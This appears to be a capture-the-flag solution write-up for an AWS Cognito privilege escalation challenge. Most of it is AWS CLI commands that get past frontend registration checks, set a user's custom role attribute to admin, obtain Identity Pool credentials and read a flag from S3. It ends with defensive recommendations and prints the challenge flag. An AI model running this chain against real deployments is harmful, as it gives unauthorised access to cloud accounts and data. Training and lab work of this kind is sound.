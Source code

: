 # Challenge 02 - AWS Cognito Privilege Escalation Solution

## Attack Flow

### Step 1: Reconnaissance
- Navigate to the web application
- Inspect source code to find Cognito configuration
- Extract User Pool ID, Client ID, and Identity Pool ID

### Step 2: Bypass Registration Validation
The frontend validates email domains, but this can be bypassed by registering directly via AWS CLI:

```bash
aws cognito-idp sign-up \
  --client-id 'CLIENT_ID' \
  --username 'attacker@example.com' \
  --password 'SecurePass123!' \
  --user-attributes '[
    {"Name":"given_name","Value":"John"},
    {"Name":"family_name","Value":"Doe"}
  ]'
```

### Step 3: Email Verification
Verify the email address using the confirmation code:

```bash
aws cognito-idp confirm-sign-up \
  --client-id 'CLIENT_ID' \
  --username 'attacker@example.com' \
  --confirmation-code 'VERIFICATION_CODE'
```

### Step 4: Login and Extract Tokens
- Login through the web interface
- Extract `access_token` and `id_token` from browser localStorage
- Note the initial `custom:role` attribute is set to `reader`

### Step 5: Privilege Escalation
Update the custom role attribute to escalate privileges:

```bash
aws cognito-idp update-user-attributes \
  --access-token 'ACCESS_TOKEN' \
  --user-attributes '[{"Name":"custom:role","Value":"admin"}]'
```

### Step 6: Obtain AWS Credentials
Get Identity Pool credentials using the updated ID token:

```bash
# Get Identity ID
aws cognito-identity get-id \
  --identity-pool-id 'IDENTITY_POOL_ID' \
  --logins "cognito-idp.REGION.amazonaws.com/USER_POOL_ID=ID_TOKEN"

# Get AWS credentials
aws cognito-identity get-credentials-for-identity \
  --identity-id 'IDENTITY_ID' \
  --logins "cognito-idp.REGION.amazonaws.com/USER_POOL_ID=ID_TOKEN"
```

### Step 7: Access the Flag
Use the obtained AWS credentials to access the S3 bucket containing the flag:

```bash
export AWS_ACCESS_KEY_ID="OBTAINED_ACCESS_KEY"
export AWS_SECRET_ACCESS_KEY="OBTAINED_SECRET_KEY"
export AWS_SESSION_TOKEN="OBTAINED_SESSION_TOKEN"

aws s3 cp s3://FLAG_BUCKET_NAME/flag.txt ./flag.txt
cat flag.txt
```

## Key Learning Points

1. **Client-side validation is insufficient**: Always implement server-side validation for security controls
2. **Custom attributes security**: Carefully consider which attributes users can modify and implement proper authorization checks
3. **Identity Pool role mapping**: Use fine-grained role mapping rules and avoid overly permissive configurations
4. **Token exposure**: Sensitive tokens stored in browser storage can be extracted and misused

## Flag

`CTF{c0gn1t0_pr1v1l3g3_3sc4l4t10n_vuln3r4b1l1ty}`

## Security Recommendations

1. **Server-side validation**: Implement email domain validation on the backend
2. **Attribute protection**: Mark sensitive custom attributes as admin-only or implement proper authorization
3. **Role mapping**: Use more specific role mapping rules based on verified claims
4. **Least privilege**: Apply principle of least privilege to IAM roles
5. **Token security**: Consider using secure, httpOnly cookies instead of localStorage for token storage
